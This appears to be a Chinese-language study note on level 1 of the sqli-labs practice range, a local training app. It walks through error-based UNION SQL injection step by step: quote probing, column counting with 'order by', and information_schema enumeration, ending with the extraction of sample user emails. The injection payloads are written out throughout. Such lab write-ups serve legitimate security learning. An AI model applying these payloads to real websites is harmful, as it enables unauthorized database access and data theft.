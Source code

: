 +++
date = "2019-08-20T15:56:26+08:00"
categories = ["渗透学习笔记"]
tags = ["Sql-Lib靶场通关"]

title = "Sql-Lib第一关"
description = "Union注入"
images = []

+++

- 漏洞类型：GET型 - 基于报错 - 单引号 - 字符型注入
- 目标网址（本地靶场）：http://www.sqllib.com/less-1/?id=
- 目标：获取网站用户的邮箱

---

# ① 访问网址，测试是否存在SQL注入

## 正常访问

> http://www.sqllib.com/less-1/?id=1

**目前页面上在有两处显示信息**

- Your Login name：Dumb
- Your Password：Dumb

![正常访问](https://shop.io.mi-img.com/app/shop/img?id=shop_a26a65b1a5f6c9c9e58bea52a6ef23a9.jpeg)




## 异常测试

> ① http://www.sqllib.com/less-1/?id=1'
>
> ② http://www.sqllib.com/less-1/?id=1' and '1
>
> ... ...

![单引号测试](https://shop.io.mi-img.com/app/shop/img?id=shop_c3a9aef6acd3d846103f6df100f2d83f.jpeg)

![布尔测试](https://shop.io.mi-img.com/app/shop/img?id=shop_1e3aa4d02d04dc6958d5b75d0b2ad100.jpeg)

## 报错信息

**报错信息中，没有对我输入的单引号进行转义，传入的 id 参数有可能是字符型，后面注入时要尝试闭合单引号**

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1'



# ② 查询当前网页，使用的表名，包含的字段数量

## 输入 order by 1~99，直到页面显示异常

```
order by 3--+
```

![猜解字段数量](https://shop.io.mi-img.com/app/shop/img?id=shop_107592566ce5f543eaf8baf69c1a1c83.jpeg)

```
order by 4--+
```

![猜解字段数量_2](https://shop.io.mi-img.com/app/shop/img?id=shop_3cc11285380a40d3248f77d5f96906b2.jpeg)



# ③ 判断查询的信息，在页面显示的位置

```
union select 1,2,3
```

![判断信息回显位置](https://shop.io.mi-img.com/app/shop/img?id=shop_13dc1b06bf1362d4b74180b221c43ea3.jpeg)

#### **如图，最终确认，2，3是信息回显的位置，后面的语句中，"1" 最好替换为 "null"**<br>

#### **避免数据库出现异常。**


# ④ 查询数据库名、表名

```
union select null,database(),version()--+
```

![查询数据库、以及版本](https://shop.io.mi-img.com/app/shop/img?id=shop_30a9b12ff751baa6b8b5783c81524727.jpeg)



```
union select null,table_schema,table_name from information_schema.tables where table_schema='security' limit 0,1--+
```

![查询库中包含的表名](https://shop.io.mi-img.com/app/shop/img?id=shop_1ac99de1700468225c1e263a91fe3bc4.jpeg)

## **改变 limit m, n** 中的 m, 从表中一行行查询 0~99

![查询到users表](https://shop.io.mi-img.com/app/shop/img?id=shop_ef02ae9ffeb0aec4f05198a68b4b0d8d.jpeg)

# ⑤ 查询 "security" 库中的 "emails" 表所包含的字段名

```
union select null,table_name,column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1--+
```

![第一个字段](https://shop.io.mi-img.com/app/shop/img?id=shop_0fdca406df650b8055ffa6881da1e01f.jpeg)

![第二个字段](https://shop.io.mi-img.com/app/shop/img?id=shop_c262c1a882641a41430113d306dce9ed.jpeg)

# ⑥ 获取用户邮箱信息

```
union select null,id,email_id from security.emails limit 0,1--+
```

![查询用户邮箱](https://shop.io.mi-img.com/app/shop/img?id=shop_320a64aeb53beb4d897a85b35bf38ab5.jpeg)

![查询用户2](https://shop.io.mi-img.com/app/shop/img?id=shop_6ee464d11e87288a2f29dd7922fdd9fd.jpeg)

## 用户邮箱

- Dumb@dhakkan.com
- Angel@ilovenu.com

## 总结

首先，要判断出从 id 传入的参数，是字符串，还是数字(int)型

- 字符型要用 ' ，"，--+，#等注释，闭合单引号，或者注释对查询无用的 MySql 语句

  

```
id=' union select ... --+'
```

- 数字型可以用 "-" 符号，布尔表达式

  
```
id=-1 union select ...
id=1 and 1=2 union select ...
```

然后，通过常见的报错信息，可以大致判断注入的类型（看运气，实战大多盲注）

最后，手工输入需要耐心和细心，有时候注入的语句没有效果

很有可能是手误敲错字母，漏掉了单引号之类的... ...

有不足和错误之处，欢迎留言讨论~